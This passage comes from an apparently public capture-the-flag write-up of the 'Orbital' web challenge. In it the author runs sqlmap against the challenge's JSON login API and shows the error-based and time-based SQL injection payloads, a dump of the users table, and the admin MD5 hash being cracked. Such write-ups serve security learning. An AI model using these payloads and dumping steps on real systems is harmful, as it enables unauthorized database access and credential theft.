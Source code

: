 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230319123325.png)

Nice! However, we only got **some password**...

**Hmm... Let's fireup `sqlmap`:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/Orbital)-[2023.03.19|12:46:17(HKT)]
└> sqlmap -u http://143.110.160.221:30809/api/login --data='{"username":"test","password":"test"}' --dbms=MySQL --batch -D orbital -T users --dump
[..]
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[12:46:35] [INFO] testing connection to the target URL
[12:46:36] [WARNING] the web server responded with an HTTP error code (403) which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON username ((custom) POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: {"username":"test"="test" AND (SELECT 2688 FROM(SELECT COUNT(*),CONCAT(0x71716b7171,(SELECT (ELT(2688=2688,1))),0x7176786b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND "test"="test","password":"test"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"username":"test"="test" AND (SELECT 6499 FROM (SELECT(SLEEP(5)))VFpT) AND "test"="test","password":"test"}
---
[12:46:36] [INFO] testing MySQL
[12:46:36] [INFO] confirming MySQL
[12:46:36] [WARNING] potential permission problems detected ('command denied')
[12:46:36] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[12:46:36] [INFO] fetching columns for table 'users' in database 'orbital'
[12:46:37] [INFO] retrieved: 'id'
[12:46:37] [INFO] retrieved: 'int(11)'
[12:46:38] [INFO] retrieved: 'username'
[12:46:38] [INFO] retrieved: 'varchar(255)'
[12:46:39] [INFO] retrieved: 'password'
[12:46:39] [INFO] retrieved: 'varchar(255)'
[12:46:39] [INFO] fetching entries for table 'users' in database 'orbital'
[12:46:40] [INFO] retrieved: '1'
[12:46:40] [INFO] retrieved: '1692b753c031f2905b89e7258dbc49bb'
[12:46:41] [INFO] retrieved: 'admin'
[12:46:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[12:46:41] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[12:46:41] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[12:46:41] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[12:46:41] [INFO] starting 4 processes 
[12:46:43] [INFO] cracked password 'ichliebedich' for user 'admin'                                                                                                                                                 
Database: orbital                                                                                                                                                                                                  
```